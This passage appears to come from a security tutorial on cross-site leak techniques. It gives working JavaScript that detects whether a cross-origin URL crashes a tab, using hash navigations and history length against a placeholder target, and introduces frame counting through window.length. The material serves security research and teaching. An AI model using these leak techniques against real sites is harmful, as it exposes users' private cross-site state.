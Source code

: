 > Error code: `STATUS_STACK_OVERFLOW`

All of the above crashes are also detectable with another more consistent method using a window reference. Using the fact that a hash change (appending `#1` but keeping the rest of the URL the same) causes no reload on a regular existing tab, but does cause a reload on a _crashed_ tab. While reloading the browser seems to not be able to keep up with the hash changes and **only puts the first in history**.\
This is then detectable using `window.length` after navigating it back to a same-origin page like `about:blank`.

The JavaScript function below can easily test for if a URL crashes or not by opening it in a new window:

```javascript
function isCrashing(url) {
  return new Promise((resolve) => {
    const w = window.open(url);
    setTimeout(async () => {
      // Crashed tab reloads here, but normal tab does not. We can detect this in history.length
      w.location = url + "#1";
      w.location = url + "#2";
      w.location = url + "#3";
      w.location = "about:blank";
      while (true) {  // Wait for `w` to become same-origin
        try {
          w.origin;
          break;
        } catch {
          await sleep(100);
        }
      }
      resolve(w.history.length < 4);  // If all navigations were added, it didn't crash
      w.close();
    }, 1000);  // Time until crash definitely happened
  });
}
// Usage
console.log(await isCrashing("https://target.tld/?css=..."));
```

{% hint style="success" %}
**Tip**: If you are in search of a method without the interaction required for `window.open()` you can simply open it once and change the leak to `w.location = url` and count the _difference_ of lengths before and after instead.
{% endhint %}

#### `<object>` Frame Counting

A popular XS-Leak is called [Frame Counting](https://xsleaks.dev/docs/attacks/frame-counting/), abusing the cross-origin [`window.length`](https://developer.mozilla.org/en-US/docs/Web/API/Window/length) property on window references to count the number of `<iframe>`, `<object>` and `<embed>` elements. You can conditionally apply [`display: none`](https://developer.mozilla.org/en-US/docs/Web/CSS/display#display_none) to these to hide them from the counter. Since this is detectable cross-site, it's a great simple way to detect the result of a selector if there are such elements on the page, or if you can inject them.
